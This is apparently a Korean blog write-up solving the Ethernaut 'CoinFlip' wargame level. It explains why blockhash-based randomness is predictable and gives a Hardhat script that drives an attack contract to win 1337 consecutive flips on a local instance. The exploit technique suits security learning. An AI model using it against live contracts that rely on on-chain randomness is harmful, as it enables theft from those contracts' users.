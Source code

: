 +++
title = "CoinFlip"
date = "2023-08-20"
+++

---

> My Solutions: [github](https://github.com/c0np4nn4/EtherStudy/tree/main/ethernaut_solution)

---

# TL;DR
> 스마트 컨트랙트 상에서 ***Randomness*** 를 구현하는 것의 어려움을 확인하는 문제입니다.

# Introduction

우선 `CoinFlip` 컨트랙트를 살펴보도록 하겠습니다. 

<center>
<img alt="Get an Instance" src="../../ethernaut_img/3_coinflip_1.png" />
</center>

`CoinFlip` 문제는 동전의 앞뒷면을 맞추는 매우 단순한 게임입니다. 
동전의 `side`는 `blockhash(block.number - 1)`로 결정됩니다. 
[blockhash](https://docs.soliditylang.org/en/v0.4.24/units-and-global-variables.html#special-variables-and-functions)는 `block number`를 인자로 받아 해당 블록의 `hash` 값을 반환하는 함수입니다.

<center>
<img alt="cryptographic hash function" src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2b/Cryptographic_Hash_Function.svg/375px-Cryptographic_Hash_Function.svg.png" />
</center>

암호학적 해시 함수는 <u>Input 값이 조금만 바뀌어도 결과가 크게 바뀐다</u>는 특징을 갖습니다. 
이는 곧, 결과값인 `해시값`으로부터 `input`을 값을 예상하는 것이 매우 어려움을 의미합니다.
이를 암호학에서는 [역상저항성](https://web.cs.ucdavis.edu/~rogaway/papers/relates.pdf)이라 일컫습니다.
(Ethereum에서 block hash를 구할 때의 알고리즘, keccak256 으로 예상) 도 이러한 성질을 갖습니다.
따라서, 변수 `blockValue`의 값이 `해시값`으로써 **랜덤** 하게 보이기 때문에 변수 `coinFlip`의 값도 0 또는 1 의 값을 **랜덤**하게 가질 것으로 생각할 수 있습니다.
즉, `CoinFlip` 컨트랙트는 평범하게 <u>**50%의 확률을 갖는 동전 던지기 게임**</u>으로 생각할 수 있습니다.

---

# Problem Detail
문제 목표를 확인하기 위해 `CoinFlipFactory` 컨트랙트의 `validateInstance()` 함수를 살펴보면 아래와 같습니다.

<center>
<img alt="Get an Instance" src="../../ethernaut_img/3_coinflip_2.png" />
</center>

`consecutiveWins` 상태 변수는 컨트랙트 배포 시 `0` 으로 초기화되고, 얼마나 많이 연속해서 동전의 면을 맞추었는지 체크합니다.
만약, 단 한번이라도 동전의 면을 맞추지 못하면 `0` 으로 다시 초기화 됩니다.

## Randomness over blockchain
[**Introduction**](http://127.0.0.1:1111/posts/ethernaut-3/#introduction)에서 언급한대로, `암호학적 해시 함수`는 역상에 대해 저항성을 갖습니다.
하지만, 그 반대의 작업은 매우 간단하다는 점이 중요합니다.
이더리움을 비롯한 [public blockchain](https://www.investopedia.com/news/public-private-permissioned-blockchains-compared/#toc-public-blockchain)의 가장 큰 특징은 모든 정보가 **공개** 됩니다.
따라서, `blockhash()`의 인자인 `block.number`와 같은 정보가 <u>만천하에 공개</u> 되어 있습니다.
누구나 손쉽게 이 정보를 획득할 수 있으며, 결과적으로 변수 `blockValue`에 저장될 값을 **미리 연산**하는 것도 가능합니다.

---

# Exploit
이번 문제에서는 `Solidity` 코드 상에 있는 `block.number` 값을 어떻게 얻을 수 있을까를 생각하는 것이 중요합니다.
우선 아래와 같은 접근법을 생각해 볼 수 있습니다.

> `ethers.js` 등을 이용해 `hardhat`으로 가장 최근의 `block` 정보를 받은 뒤 계산한다.

위 접근법은 <u>획득한 `block` 정보와 자신이 전송할 트랜잭션이 포함될 `block'`가 **정확히 한 블록 차이**</u> 임을 상정합니다.
하지만, 자신이 전송한 트랜잭션이 어느 블록에 들어갈지는 알 수 없기 때문에 아래와 같이 접근하는 것이 보다 바람직합니다.

> `CoinFlip`을 호출하는 또 다른 컨트랙트를 배포하고, `block.number` 를 `solidity` 코드 내에서 활용한다.

따라서, 아래와 같이 `CoinFlipAttack` 컨트랙트를 작성하여 배포할 수 있습니다.

<center>
<img alt="Get an Instance" src="../../ethernaut_img/3_coinflip_3.png" />
</center>

그리고 배포한 `CoinFlipAttack` 의 함수 `attack()`을 호출하면 문제를 해결할 수 있습니다.
컨트랙트 배포 및 interaction 은 `Hardhat`을 활용하였으며, 아래는 이를 위한 javascript 스크립트입니다.

```js
const { ethers } = require('hardhat');

async function main() {
  const [owner, player] = await ethers.getSigners();

  console.log("[1] deploy CoinFlipFactory");
  const Factory = await ethers.getContractFactory("CoinFlipFactory");
  const factory = await Factory.deploy();
  await factory.deployed();

  console.log("[2] create a CoinFlip instance");
  const receipt = await factory.createInstance(owner.address);
  const coinFlip_address = (await receipt.wait()).events[0].args[0];
  const coinFlip = await ethers.getContractAt("CoinFlip", coinFlip_address, owner);

  console.log("[3] deploy CoinFlipAttack");
  const Attack = await ethers.getContractFactory("CoinFlipAttack");
  const attack = await Attack.deploy();
  await attack.deployed();

  console.log("[4] call attack() 1337 times");

  const begin_time = (new Date).getTime();;

  for(let i = 0; i < 1337; i++) {
    await attack.attack(coinFlip.address);
  }

  console.log('----attack has been taken', ((new Date).getTime() - begin_time) / 1000, 's');

  console.log("----consecutive wins: ", 
    (await coinFlip.consecutiveWins()).toString());


  console.log("[5] validate solved");
  const res = await factory.validateInstance(coinFlip.address, player.address);
  if (res == true) {
    console.log("[+] Done!");
  } else {
    console.log("[+] Fail...");
  }
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});

```

실행 결과는 아래와 같습니다.
<center>
<img alt="Get an Instance" src="../../ethernaut_img/3_coinflip_4.png" />
</center>

---

# Conclusion
스마트 컨트랙트 상에서 `랜덤값`을 기반으로 한 구현의 어려움을 확인할 수 있었습니다.
특히, 블록체인 상에 기록되는 값을 기반으로 해서 `랜덤`을 구현하는 것은 전혀 `랜덤`이 아님을 확인할 수 있습니다.
따라서 `Hash Value`를 이용한 컨트랙트를 작성하고자 한다면, `input` 값은 off-chain 에 두는 것이 안전함을 알 수 있습니다.
